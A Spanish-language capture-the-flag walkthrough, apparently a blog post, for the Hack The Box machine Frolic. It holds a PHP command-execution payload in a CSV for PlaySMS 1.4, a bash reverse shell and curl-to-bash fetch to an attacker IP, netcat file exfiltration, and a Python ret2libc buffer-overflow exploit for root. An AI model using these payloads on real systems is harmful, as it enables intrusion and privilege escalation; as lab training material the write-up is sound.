PlaySms 0.8 - 'index.php' Cross-Site Scripting                                                                                                        | php/webapps/26871.txt
PlaySms 0.9.3 - Multiple Local/Remote File Inclusions                                                                                                 | php/webapps/7687.txt
PlaySms 0.9.5.2 - Remote File Inclusion                                                                                                               | php/webapps/17792.txt
PlaySms 0.9.9.2 - Cross-Site Request Forgery                                                                                                          | php/webapps/30177.txt
PlaySMS 1.4 - '/sendfromfile.php' Remote Code Execution / Unrestricted File Upload                                                                    | php/webapps/42003.txt
PlaySMS 1.4 - 'import.php' Remote Code Execution                                                                                                      | php/webapps/42044.txt
PlaySMS 1.4 - 'sendfromfile.php?Filename' (Authenticated) 'Code Execution (Metasploit)                                                                | php/remote/44599.rb
PlaySMS 1.4 - Remote Code Execution                                                                                                                   | php/webapps/42038.txt
PlaySMS 1.4.3 - Template Injection / Remote Code Execution                                                                                            | php/webapps/48199.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
❯ searchsploit -m php/webapps/42044.txt
  Exploit: PlaySMS 1.4 - 'import.php' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/42044
     Path: /usr/share/exploitdb/exploits/php/webapps/42044.txt
    Codes: CVE-2017-9101
 Verified: True
File Type: HTML document, ASCII text
Copied to: /home/zelpro/HTB/Frolic/42044.txt
```
El exploit nos explica que deberemos loguearnos e ir a `http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list`, ahí encontramos una subida de archivos y deberemos subir el siguiente `.csv` malicioso:

```txt wrap=false title="backdoor.csv"
Name,Mobile,Email,Grup code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,,,
```

Nosotros a la hora de mandar la petición la interceptaremos con **burpsuite** y cambiaremos el comando al que queramos ejecutar. En mi caso me montare una `reverse shell` de la siguiente manera:

```html title="index.html"
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.8/443 0>&1
```

```bash title="Levantamos un servidor HTTP"
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y simplemente en el `User-Agent` de la petición, ponemos `curl http://10.10.14.8 | bash`:

```bash wrap=false title="Reverse shell"
www-data@frolic:~/html/playsms$ whoami
www-data
www-data@frolic:~/html/playsms$ cat /home/ayush/user.txt 
68100d949d3b35...
```

## Escalada de privilegios

Comenzaremos buscando archivos con permisos `SUID`:

```bash wrap=false
www-data@frolic:~/html/playsms$ find / -perm -4000 -type f 2>/dev/null
/sbin/mount.cifs
/bin/mount
/bin/ping6
/bin/fusermount
/bin/ping
/bin/umount
/bin/su
/bin/ntfs-3g
/home/ayush/.binary/rop
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/i386-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

### Binary rop

Vemos un `binario` en `/home/ayush/.binary/rop` vamos a traerlo al equipo local con **netcat**:

```bash title="Máquina atacante"
❯ sudo nc -lvnp 4444 > rop
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.111] 42698
```

```bash title="Máquina víctwww-data@frolic:~/html/playsms$ nc 10.10.14.8 4444 < /home/ayush/.binary/ropima"
www-data@frolic:~/html/playsms$ nc 10.10.14.8 4444 < /home/ayush/.binary/rop
```

Su funcionamiento es el siguiente:

```bash
❯ ./rop test; echo
[+] Message sent: test
```

### Checksec

Y esta su seguridad:

```bash
❯ checksec --file=rop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols	 No	0		2		rop
```

El `NX Enable` significa que no nos permite ejecutar código de la pila. Por lo que tendremos que buscar otro camino.

### Ret2libc

Se me ocurre recurrir a un `ret2libc` que lo que hace es ejecutar una llamada a nivel de **sistema**.

[Buffer Overflow](./4.png)

En esta ocasión de momento quiero saber cuanta `junk` o basura tengo que introducir hasta sobrescribir el `RET` que es la dirección a la que va a apuntar cuando acabe el programa. Si saturamos el programa con muchas `A` por ejemplo, vemos lo siguiente:

```bash wrap=false
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x177     
$ebx   : 0xffffcc80  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ecx   : 0x0       
$edx   : 0x0       
$esp   : 0xffffcc50  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x08048540  →  <__libc_csu_init+0000> push ebp
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x41414141 ("AAAA"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcc50│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	← $esp
0xffffcc54│+0x0004: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc58│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc5c│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc60│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc64│+0x0014: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc68│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc6c│+0x001c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x41414141 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

El `EIP` que es el `RET` es sobrescrito al igual que el `EBP`. Si nos creamos un patrón con el comando `pattern create` y se lo pasamos al programa podremos calcular el `offset` de estos 2 registros:

```txt title="Patrón"
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaak
```

```bash wrap=false
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x400     
$ebx   : 0xffffca00  →  "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"
$ecx   : 0x0       
$edx   : 0x0       
$esp   : 0xffffc9d0  →  "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
$ebp   : 0x6161616d ("maaa"?)
$esi   : 0x08048540  →  <__libc_csu_init+0000> push ebp
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x6161616e ("naaa"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffc9d0│+0x0000: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"	← $esp
0xffffc9d4│+0x0004: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabca[...]"
0xffffc9d8│+0x0008: "qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabda[...]"
0xffffc9dc│+0x000c: "raaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabea[...]"
0xffffc9e0│+0x0010: "saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa[...]"
0xffffc9e4│+0x0014: "taaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga[...]"
0xffffc9e8│+0x0018: "uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha[...]"
0xffffc9ec│+0x001c: "vaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabia[...]"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616e
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x6161616e in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset $eip
[+] Searching for '6e616161'/'6161616e' with period=4
[+] Found at offset 52 (little-endian search) likely
```

Nos dice qye hay `52` caracteres para poder sobrescribir el `EIP`. Para comprobarlo haremos lo siguiente:

```bash wrap=false title="Generamos el patrón de prueba"
❯ python3 -c 'print("A"*52+"B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

```bash wrap=false
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x38      
$ebx   : 0xffffcdc0  →  0x00000002
$ecx   : 0x0       
$edx   : 0x0       
$esp   : 0xffffcd90  →  0xffffd000  →  0x00000017
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x08048540  →  <__libc_csu_init+0000> push ebp
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x42424242 ("BBBB"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcd90│+0x0000: 0xffffd000  →  0x00000017	← $esp
0xffffcd94│+0x0004: 0x00000000
0xffffcd98│+0x0008: 0x00000000
0xffffcd9c│+0x000c: 0x00000000
0xffffcda0│+0x0010: 0xffffcdc0  →  0x00000002
0xffffcda4│+0x0014: 0xf7f98e14  →  0x00232d0c ("
                                                -#"?)
0xffffcda8│+0x0018: 0x00000000
0xffffcdac│+0x001c: 0xf7d8acc3  →   add esp, 0x10
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x42424242 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Y ahí lo tenemos, una vez aquí vamos a comprobar si está activado el `ASLR` (*Address Space Layout Randomization*), que lo que hace activo es hacer aleatorias las localicaciones de memoria en cada ejecución.

```bash title="Máquina víctima"
www-data@frolic:/home/ayush/.binary$ cat /proc/sys/kernel/randomize_va_space   
0
```

Vemos que no está activa esta protección. Con ´ldd´ podremos ver las librerías que usa **rop**:

```bash wrap=false
www-data@frolic:/home/ayush/.binary$ ldd rop 
	linux-gate.so.1 =>  (0xb7fda000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```

Podemos ver que `libc` está en `0xb7e19000` de manera estable. Ahora con `readelf` podremos leer la **tabla de símbolos** de `libc` y encontrar lo que necesitamos:

```bash wrap=false
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system@@| exit@@"
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

Con esto encontramos los **offsets** de `exit` y `system`. Buscaremos los de `/bin/sh` con el siguiente comando:

```bash
www-data@frolic:/tmp$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 15ba0b /bin/sh
```

Vamos a montarnos un pequeño exploit de **python**:

```python wrap=false
# Libreria para darle la vuelta a las direcciones (little endian)
from struct import pack

# Offset hasta RET
offset = 52
junk = "A"*offset

# ret2libc -> system_addr + exit_addr + bin_sh_addr

base_libc_address = 0xb7e19000

#www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system@@| exit@@"
#   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
#  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

#www-data@frolic:/tmp$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
# 15ba0b /bin/sh

# Calculamos las direcciones en base a los offests
system_addr = pack("<I", base_libc_address + 0x0003ada0)
exit_addr = pack("<I", base_libc_address + 0x0002e9d0)
bin_sh_addr = pack("<I", base_libc_address + 0x0015ba0b)

payload = junk + system_addr + exit_addr + bin_sh_addr

print(payload)
```

Y lo ejecutamos:

```bash wrap=false
www-data@frolic:/tmp$ /home/ayush/.binary/rop $(python exploit.py)
# whoami
root
# cat /root/root.txt
2c740c76bc5dfb7c0...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/158)

---